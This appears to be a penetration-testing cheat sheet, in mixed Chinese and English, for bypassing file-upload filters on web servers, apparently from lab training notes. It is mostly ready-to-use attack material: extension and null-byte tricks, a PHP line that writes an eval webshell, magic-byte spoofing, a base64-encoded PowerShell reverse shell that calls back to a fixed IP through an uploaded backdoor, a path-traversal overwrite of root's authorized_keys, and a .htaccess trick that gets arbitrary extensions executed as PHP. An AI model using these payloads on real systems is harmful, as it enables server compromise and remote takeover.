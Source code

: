 ### File Extensions
```
.phps or .php7
From .php to .pHP
```
For Windows
```
test.jsp.
```
### 截断
```
filename.php%00.pdf
```
### 条件竞争绕过
服务器对文件进行检测，如果不符合则删除文件，这其中需要一些时间，我们可以利用这个时间差进行上传木马，要求服务器接收到文件不会重命名。
我们将上传的文件写为：
```
<?php fputs(fopen('shell.php','w'),'<?php eval($_GET[cmd])?>');?>
```
### 文件类型特征码（Convert to ascii in burp）
Put the corresponding file signature code in front of the file content in burp 
```
JPEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Postscript (eps.or.ps)，文件头：252150532D41646F6265
Adobe Acrobat (pdf)，文件头：255044462D312E
Quicken (qdf)，文件头：AC9EBD8F
Windows Password (pwl)，文件头：E3828596
ZIP Archive (zip)，文件头：504B0304
RAR Archive (rar)，文件头：52617221
Wave (wav)，文件头：57415645
AVI (avi)，文件头：41564920
Real Audio (ram)，文件头：2E7261FD
Real Media (rm)，文件头：2E524D46
MPEG (mpg)，文件头：000001BA
MPEG (mpg)，文件头：000001B3
Quicktime (mov)，文件头：6D6F6F76
Windows Media (asf)，文件头：3026B2758E66CF11
MIDI (mid)，文件头：4D546864
```
### Powershell reverse shell
```
kali: pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20(replaced by $EncodedText)
```

### If can't execute uploaded file, try overwriting file
```
ssh-keygen
filename: fileup
cat fileup > authorized_keys
upload ../../../../../../../root/.ssh/authorized_keys
rm ~/.ssh/known_hosts
ssh -p 2222 -i privatekey root@mountaindesserts.com
```
### Webshell
https://github.com/WhiteWinterWolf/wwwolf-php-webshell
### Upload .htaccess to rce
Blue teamers and developers are usually quick to blacklist file extensions, but rarely consider how webserver configuration files themselves can be exploited. Hence why the .htaccess technique can be so dangerous, even leading to RCE.

This file isn't directly an RCE vector, but it does allow for the definition of new valid PHP extensions, which can then be uploaded to the server (as they are not blacklisted).

An example .htaccess file that can be used to add a new PHP extension is:

AddType application/x-httpd-php .evil
Note that this attack relies on the following options being enabled, and NGINX does not support .htaccess files.
```
/etc/apache2/apache2.conf:      AllowOverride Options
/etc/apache2/apache2.conf:      AllowOverride FileInfo
```
Upload webshell.evil, then access webshell.evil

